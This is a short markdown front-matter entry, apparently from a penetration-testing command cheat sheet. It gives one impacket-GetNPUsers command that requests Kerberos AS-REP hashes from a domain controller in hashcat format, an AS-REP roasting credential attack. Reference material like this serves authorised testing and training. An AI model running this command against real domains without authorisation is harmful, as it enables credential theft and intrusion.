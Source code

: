 ---
title: "Impacket GetNPUsers Basic Request"
date: 2024-05-23T10:00:00Z
command: |
    impacket-GetNPUsers -dc-ip 10.10.10.1 -format hashcat -request 'domain.local/'
tags: ["Kerberos", "TGT", "Enumeration", "Windows"]
description: "Basic request where no credentials are required and the TGT key is public"
draft: false
---